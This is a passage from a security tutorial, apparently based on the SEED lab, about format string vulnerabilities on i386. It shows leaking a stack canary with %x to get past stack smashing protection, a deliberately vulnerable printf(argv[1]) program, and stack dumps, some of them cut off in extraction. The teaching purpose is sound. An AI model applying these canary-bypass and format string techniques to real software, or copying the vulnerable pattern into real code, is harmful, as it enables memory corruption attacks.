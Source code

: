 Second 

\begin{code} 
seed@SEED:~/TEST$ truncate --size 0 badinput.txt; for i in {1..9}; do echo -n $'\x7a' >> badinput.txt; done 
\end{code}

It is interesting that the program didn't crash. I expected a segmentation fault, but we didn't get it. The good news is that we didn't get a stack smashing detected error. Notice the 
difference in how I inserted the canary in reverse order this second time - we do this because of i386’s use of little endian. 
 
I will let you fiddle with the program (e.g. increase the number of bytes read) as well as play around a little bit yourself in order to attain the segmentation fault that we were expecting. Have you figured out why it didn't crash yet? Do you see how we are not actually overwriting the return address? 
 
The magic of \%n.  
 
The previous example only used \%x to read a number of values from the stack. We were then able to find the stack canary, read it out and then used it as part of our buffer overflow and thus evaded the stack smashing detection.  
 
Now we will try to have a little bit more fun with \%n. To do this we will introduce a new program as follows. 

\begin{code} 
#include <stdio.h> 
 
int main(int argc, char** argv) 
{ 
  int i = 0x45424142; 
  int* ip1 = &i; 
  char* ip2 = (char*)(&i); 
  unsigned int ip3 = (unsigned int)(&i); 
 
  if (argc == 2) 
  { 
    printf(argv[1]); 
  } 
  return (0); 
} 
\end{code}
 
In this program, I did a few things on purpose. The first is I created an {\em int} pointer, {\em char} pointer an unsigned int all initialized with the value of the address of {\em i}. I did this to demonstrate that it doesn’t matter what the type is in C, when it comes to the computer itself, the value is interpreted by the instruction. In the case of \%n, the value will be interpreted as an {\em int*} and in the case of \%s it will be interpreted as a {\em char*}. Therefore, don’t get stuck on the types. The CPU doesn’t care about  high level types. 
 
If we compiled this program and executed the same input as we did previously we see something like this: 
\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.bffff04c.bffff04c.bffff04c. 
ee862b00 
seed@SEED:~/TEST$ ./a.out $'%
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.bffff04c.bffff04c.bffff04c. 
96cabc00 
\end{code}
 
